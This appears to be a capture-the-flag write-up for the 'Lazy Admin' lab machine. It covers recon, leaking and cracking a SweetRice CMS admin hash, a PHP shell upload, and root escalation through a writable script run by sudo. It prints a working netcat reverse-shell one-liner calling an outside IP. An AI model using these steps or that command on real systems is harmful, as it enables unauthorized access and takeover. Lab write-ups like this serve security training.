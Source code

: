 # Lazy Admin

Notes!

## Recon

### nmap
`nmap -A $TARGET_IP`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (EdDSA)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:94:B6:75:51:69 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.60%E=4%D=7/7%OT=22%CT=1%CU=31543%PV=Y%DS=1%DC=D%G=Y%M=0294B6%TM
OS:=64A88FF5%P=x86_64-pc-linux-gnu)SEQ(SP=FB%GCD=1%ISR=FA%TI=Z%CI=Z%TS=A)SE
OS:Q(SP=FB%GCD=1%ISR=FA%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST1
OS:1NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W
OS:1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%
OS:O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R
OS:=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.33 ms ip-10-10-178-35.eu-west-1.compute.internal ($TARGET_IP)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.16 seconds
```

### Gobuster

`# gobuster dir -u $TARGET_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt `

```
/content (Status: 301)
/server-status (Status: 403)
```
`# gobuster dir -u $TARGET_IP/content -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt `

```
/images (Status: 301)
/js (Status: 301)
/inc (Status: 301)
/as (Status: 301)
/_themes (Status: 301)
/attachment (Status: 301)
```

### Website 

Pages that are worth looking at:

`http://$TARGET_IP/content/`
Powered by Basic-CMS.ORG SweetRice.


`http://$TARGET_IP/content/as is the sign in page.`

`http://$TARGET_IP/content/inc/lastest.txt tells us it is 1.5.1`


https://www.exploit-db.com/exploits/40718 (Backup disclosure)

`http://$TARGET_IP/content/inc/mysql_backup/`

`"Description\\";s:5:\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\";s:5:\\"close\\";`

`42f749ade7f9e195bf475f37a44cafcb` hash?

`# hashid hash`

```
--File 'hash'--
Analyzing '42f749ade7f9e195bf475f37a44cafcb'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM 
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x 
```

`# hashcat -m 0 hash /usr/share/wordlists/rockyou.txt`

```
42f749ade7f9e195bf475f37a44cafcb:Password123
```

We can log in with `manager:Password123`.


## Getting access

https://www.exploit-db.com/exploits/40716 (file upload exploit)

`http://$TARGET_IP/content/attachment/shell.phtml` (.php doesn't work)

Check `nc`.

## Escalation

### mysql

`$ cat mysql_login.txt `

```
rice:randompass
```

`$ mysql -u rice -p`

`\s`

```
--------------
mysql  Ver 14.14 Distrib 5.7.28, for Linux (i686) using  EditLine wrapper

Connection id:		6
Current database:	
Current user:		rice@localhost
SSL:			Not in use
Current pager:		stdout
Using outfile:		''
Using delimiter:	;
Server version:		5.7.28-0ubuntu0.16.04.2 (Ubuntu)
Protocol version:	10
Connection:		Localhost via UNIX socket
Server characterset:	latin1
Db     characterset:	latin1
Client characterset:	latin1
Conn.  characterset:	latin1
UNIX socket:		/var/run/mysqld/mysqld.sock
Uptime:			29 min 30 sec

Threads: 1  Questions: 18  Slow queries: 0  Opens: 109  Flush tables: 1  Open tables: 28  Queries per second avg: 0.010
--------------
```
This doesn't seem to go anywhere...


### backup.pl

`$ sudo -l` shows what programs we can execute as sudo without a password.

```    
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

backup.pl is:
```
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```


`$ cat /etc/copy.sh`
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f
```
This is a script which opens a reverse TCP shell.
```
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```
We see that we have read-write-execute privilege on this. `/etc/copy.sh` is a reverse TCP shell. We can change the IP in `/etc/copy.sh` and open a new `nc` listener.

I didn't want to open another `nc` so I changed `/etc/copy.sh` contents to `/bin/bash` so it executes a shell.

`www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl`

Note that we can only execute the absolute path without the password. Relative paths will ask us the password.

Now we have root!
